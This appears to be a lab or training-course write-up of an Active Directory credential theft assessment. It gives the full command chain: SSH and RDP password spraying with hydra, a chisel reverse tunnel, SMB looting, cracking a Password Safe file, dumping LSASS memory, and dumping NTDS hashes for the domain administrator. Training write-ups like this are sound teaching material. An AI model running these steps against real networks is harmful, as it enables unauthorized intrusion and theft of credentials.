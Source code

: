 # Skills Assessment
The Credential Theft Shuffle is a systematic approach attackers use to compromise Active Directory environments by exploiting stolen credentials.

It begins with gaining initial access, often through phishing, then obtaining local administrator privileges on a machine. Attackers can then extract credentials from memory and leverage them to move laterally across the network. The ultimate goal is to escalate privileges and gain control over the domain by compromising Domain Admin accounts or performing DCSync attacks.

**Betty Jayde** works at **Nexura LLC** and uses `Texas123!@#` as her password on multiple websites.

| Host | IP Address |
| ---- | ---------- |
| DMZ01 | 10.129.*.* (External), 172.16.119.13 (Internal) |
| JUMP01 | 172.16.119.7 |
| FILE01 | 172.16.119.10 | 
| DC01 | 172.16.119.11 |

## Approach
First, I perform a Nmap scan to determine what service is running on DMZ01.
```bash
nmap -sV -sC 10.129.212.210
```
![Nmap](img/DMZ_nmap.png) <br>
From the results, we can see that only the SSH service is running.

We know that Betty Jayde's common password is `Texas123!@#`. We can use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to generate a list of usernames for password spraying.
```bash
echo "Betty Jayde" > betty.txt
./username-anarchy -i betty.txt > betty_list.txt
```
I will then spray the SSH service with our list of usernames for Betty Jayde.
```bash
hydra -L betty_list.txt -p 'Texas123!@#' ssh://10.129.212.210
```
It returned me a valid credential, `jbetty:Texas123!@#`. <br>
With this, I SSH-ed into DMZ01.
```bash
ssh jbetty@10.129.212.210
```
Looking into `.bash_history`, I noticed a line that says `sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01`. <br>
This could mean that we could log in as hwilliam on file01 with "dealer-screwed-gym1".

Before that, let's set up proxychains with [Chisel](https://github.com/jpillora/chisel).<br>
We can transfer `chisel` from our machine to DMZ01 as follows:
```bash
scp chisel jbetty@10.129.212.210
```
After configuring our proxychains configuration file, we set up proxychains. <br>
On our machine:
```bash
sudo ./chisel server --reverse
```
On DMZ01:
```bash
./chisel client 10.10.14.120:8080 R:socks	## 10.10.14.120 is our IP
```
After that, we should be able to reach other hosts in the internal network by adding `proxychains`.

Based on the name, FILE01, I deduce that the machine could be running SMB, FTP or NFS.<br>
Let's try to enumerate the SMB service.
```bash
proxychains smbmap -H 172.16.119.10 -u hwilliam -p 'dealer-screwed-gym1' -d nexura.htb
```
![smbmap](img/smbmap_file01.png) <br>
We can see that there are a few available shares for us to access.

We can use `smbclient` to connect to the shares and enumerate further.
```bash
proxychains smbclient //172.16.119.10/HR -U 'nexura.htb/hwilliam%dealer-screwed-gym1'
```
![smbclient](img/smbclient_file01_ls.png)<br>
Looking around, I noticed there was an interesting file in the `Archive` directory, `Employee-Passwords_OLD.psafe3`, which could store employees' passwords. We can download the file into our machine as below:
```bash
smb: \Archive\> get Employee-Passwords_OLD.psafe3
```
To read the .psafe3 file, `pwsafe` requires a master password, which we could obtain with John the Ripper.
```bash
pwsafe2john Employee-Passwords_OLD.psafe3 > pwsafedump
john --wordlist=/usr/share/wordlists/rockyou.txt pwsafedump
john pwsafedump --show
```
With this, we obtained the master password, `michaeljackson` and we can read the .psafe3 file.
```bash
pwsafe Employee-Passwords_OLD.psafe3
```
The obtained credentials are as follows:
- David Brittni, `bdavid:caramel-cigars-reply1`
- Tom Sandy, `stom:fails-nibble-disturb4`
- William Hallam, `hwilliam:warned-wobble-occur8`

Next, we look into using JUMP01. Since it is a JUMP machine, I checked possible services and found RDP running. We can use `hydra` to find valid credentials from those we just found.
```bash
proxychains hydra -L rdpuser_ls.txt -P rdppass_ls.txt rdp://172.16.119.7 -t 1
```
We found a set of valid credentials, `bdavid:caramel-cigars-reply1`.<br>
I proceeded to use `xfreerdp3` to RDP into JUMP01.
```bash
proxychains xfreerdp3 /u:bavid /p:'caramel-cigars-reply1' /v:172.16.119.7 /d:nexura.htb /drive:linux,.
```
I first checked the privileges that bdavid has on the machine.<br>
![bdavid's privileges](img/bdavid_priv.png)<br>
It shows that bdavid is part of BUILTIN\Administrators, which is of high privileges.

Let's try to dump LSASS, which stores sensitive credentials in memory. <br>
We can do this by opening Task Manager and create a dump file from Local Security Authority Process. <br>
![lsass dump](img/lsass_jump01.png)<br>
Now, we can transfer `lsass.dmp` to our machine through the shared drive.

We can then use [pypykatz](https://github.com/skelsec/pypykatz) to extract theh credentials from the memory's "screenshot".
```bash
pypykatz lsa minidump lsass.dmp
```
With this, we obtained another set of credentials, `stom:calves-warp-learning1` on DC01.
![pypykatz dump](img/pypykatz_dmp.png)<br>


Using `netexec`, we can dump NTDS credentials quickly.
```bash
proxychains netexec smb 172.16.119.11 -u stom -p calves-warp-learning1 -M ntdsutil
```
![NTDS dump](img/ntds_dump.png)

With this, we obtained the NT hash for NEXURA\Administrator: `36e09e1e6ade94d63fbcab5e5b8d6d23`